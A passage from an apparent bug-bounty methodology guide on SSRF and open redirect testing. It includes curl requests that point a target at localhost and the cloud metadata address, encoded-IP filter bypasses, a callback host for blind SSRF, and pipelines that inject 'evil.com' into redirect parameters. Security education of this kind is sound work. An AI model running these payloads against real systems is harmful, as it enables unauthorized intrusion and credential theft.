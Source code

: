 Look for common SSRF-prone parameters in URLs
cat urls.txt | grep -E 'url=|uri=|redirect=|next=|data=|path=|dest=|proxy=|file=|img=|out=|continue=' | sort -u
Look for API/webhook integrations or cloud metadata patterns
cat urls.txt | grep -i 'webhook\|callback\|upload\|fetch\|import\|api' | sort -u
Nuclei for automated scanning
cat urls.txt | nuclei -t nuclei-templates/vulnerabilities/ssrf/
Basic SSRF to local services
curl "https://target.com/page?url=http://127.0.0.1:80/"
Target internal cloud metadata
curl "https://target.com/api?endpoint=http://169.254.169.254/latest/meta-data/"
Bypass filters with alternative IP formats
http://127.0.0.1%23.google.com
http://127.1
http://[::1]/
http://0x7f000001
http://017700000001
DNS rebinding or callback for blind SSRF
curl "https://target.com/page?url=http://yourdomain.burpcollaborator.net"

Open Redirect testing
Open Redirect vulnerabilities allow attackers to redirect users to malicious sites using trusted domain links often used in phishing or session hijacking attacks. This section covers simple to advance methods to detect and test for open redirect issues in URLs and parameters.
cat final.txt | grep -Pi "returnUrl=|continue=|dest=|destination=|forward=|go=|goto=|login\?to=|login_url=|logout=|next=|next_page=|out=|g=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|return=|returnTo=|return_path=|return_to=|return_url=|rurl=|site=|target=|to=|uri=|url=|qurl=|rit_url=|jump=|jump_url=|originUrl=|origin=|Url=|desturl=|u=|Redirect=|location=|ReturnUrl=|redirect_url=|redirect_to=|forward_to=|forward_url=|destination_url=|jump_to=|go_to=|goto_url=|target_url=|redirect_link=" | tee redirect_params.txt
final.txt | gf redirect | uro | sort -u | tee redirect_params.txt
cat redirect_params.txt | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"
subfinder -d vulnweb.com -all | httpx-toolkit -silent | gau | gf redirect | uro | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"
cat redirect_params.txt | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"

Conclusion
This methodology offers a structured and proven approach to web application security testing, built on years of hands-on experience from the bug bounty community. While tools play a role, true success comes from understanding core technologies, thinking like an attacker and staying persistent through trial and error.

Disclaimer
The content provided in this article is for educational and informational purposes only. Always ensure you have proper authorization before conducting security assessments. Use this information responsibly.
